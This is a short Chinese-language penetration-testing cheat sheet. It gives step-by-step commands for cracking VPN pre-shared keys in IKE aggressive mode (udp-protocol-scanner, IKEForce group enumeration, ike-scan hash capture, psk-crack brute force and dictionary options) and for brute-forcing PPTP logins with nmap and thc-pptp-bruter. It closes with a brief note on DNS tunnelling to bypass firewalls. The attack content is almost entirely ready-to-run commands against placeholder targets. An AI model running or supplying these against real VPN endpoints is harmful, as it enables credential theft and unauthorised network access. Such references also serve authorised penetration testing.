 #### IKE 激进模式 PSK 破解

1. 验证VPN服务器
2. 使用 IKEForce 枚举来获得组ID
3. 使用 ike-scan 从IKE 终端抓取 PSK 哈希 
4. 使用 psk-crack 破解哈希

**Step 1: 验证IKE服务器**

```text
./udp-protocol-scanner.pl -p ike SUBNET/24
```

**Step 2:使用IKEForce枚举组名**

```text
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

**Step 3: 使用ike-scan抓取PSK哈希**

```text
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```

**Step 4: 使用psk-crack 破解PSK 哈希**

```text
psk-crack hash-file.txt
```

高级psk-crack 选项:

```text
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
```

#### PPTP Hacking

验证PPTP服务 ，它以TCP协议在1723端口监听

**NMAP PPTP 指纹识别:**

```text
nmap –Pn -sV -p 1723 TARGET(S)
```

**PPTP字典攻击**

```text
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
```

### DNS 隧道

通过DNS传送数据来绕过防火墙。dns2cat支持和目标主机间 的上传和下载文件（数据或程序）操作。
